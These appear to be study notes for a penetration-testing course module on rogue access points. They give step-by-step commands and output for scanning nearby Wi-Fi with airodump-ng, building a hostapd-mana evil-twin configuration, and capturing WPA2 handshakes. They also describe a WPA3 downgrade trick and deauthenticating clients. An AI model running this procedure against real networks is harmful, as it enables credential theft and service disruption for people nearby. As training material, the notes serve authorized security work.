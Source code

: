 # Module 10: Rogue Access Points

## The Basics of Rogue APs

_Use a Rogue AP with an identical SSID to have a device reference its Preferred Network List (PNL) and try to connect to your AP with the legitimate PSK._

## Discovery

_Conduct recon to gather information about the AP you'll be maliciously mirroring._

```bash
kali@kali:~$ sudo airodump-ng -w discovery --output-format pcap wlan0mon
 CH 12 ][ Elapsed: 0 s ][ 2020-08-14 16:23 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 CD:C2:25:9A:47:BA  -45        3        2    0   6  195   WPA2 CCMP   MGT  Sarajevo
 94:36:45:CA:71:61  -46        3        4    0   6  195   WPA2 CCMP   PSK  Zagreb
 FC:7A:2B:88:63:EF  -53        5        0    0   1  130   WPA2 CCMP   PSK  Mostar
 1E:E1:3E:95:52:7D  -87        2        0    0  11  130   OPN              Budva
 85:28:13:AE:50:5C  -91        3        0    0  11  130   WPA2 CCMP   PSK  Beograd

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 94:36:45:CA:71:61  E6:D9:90:B0:B2:4C  -54    0 - 0e     0        2
 94:36:45:CA:71:61  05:E3:5B:E6:D9:A4  -73    0e-54      0        2
 85:28:13:AE:50:5C  E6:DE:B9:2A:56:83  -91    0 - 5e   487        6
 CD:C2:25:9A:47:BA  98:D5:95:6D:25:77  -37    0 - 1e     0        2
 (not associated)   A7:AD:4A:2B:5E:ED  -54    0 - 1      3        9         Yugoslavia
 FC:7A:2B:88:63:EF  FE:5C:F4:2B:D4:3E  -48    0 - 6      0        1
```

_The above example lets us know Mostar is a WPA2-PSK network with CCMP. It runs at 130 Mbit, and is on channel 1._

## Creating a Rogue AP

### Building the hostapd-mana Configuration

The simplest configuration for hsotapd-mana:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
```

Adding hw\_mode to the config file:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
```

Adding security configuration:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
```

Final Mostar-mana.conf:

```bash
kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```

{% hint style="info" %}
At the writing of this module, it is not possible to crack WPA3. However, when we encounter APs with WPA3, we may be able to trick clients into downgrading to a WPA2 connection, allowing us to capture a crackable handshake. We can accomplish this by creating an AP with only WPA2 and 802.11w set to "optional". WPA3 use the same algorithms as WPA2 CCMP, and requires 802.11w.

If 802.11w is disabled, a client may never try to connect, but WPA2 clients rarely use it (and sometimes don't handle it well). The combination of only using WPA2 and 802.11w set to "optional" will gives us the highest chance that a client will be willing to downgrade.

To achieve this in the hostapd configuration, the _wpa_ value should be set to "2", there shouldn't be a _wpa\_pairwise_ parameter, and _rsn\_pairwise_ should be set to "CCMP" only. To enable 802.11w, we would set _ieee80211w_ as a new parameter with the value of "1" (indicating it is optional). This also requires that we add "WPA-PSK-SHA256" to _wpa\_key\_mgmt_.
{% endhint %}

### Capturing Handshakes

Starting hostapd-mana to capture handshakes:

```bash
kali@kali:~$ sudo hostapd-mana Mostar-mana.conf 
Configuration file: Mostar-mana.conf
MANA: Captured WPA/2 handshakes will be written to file 'mostar.hccapx'.
Using interface wlan0 with hwaddr 2e:0b:05:98:f8:66 and ssid "Mostar"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED 
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
```

To _help_ client devices connect to your rogue AP, consider sending deauths to the legitimate AP's clients.
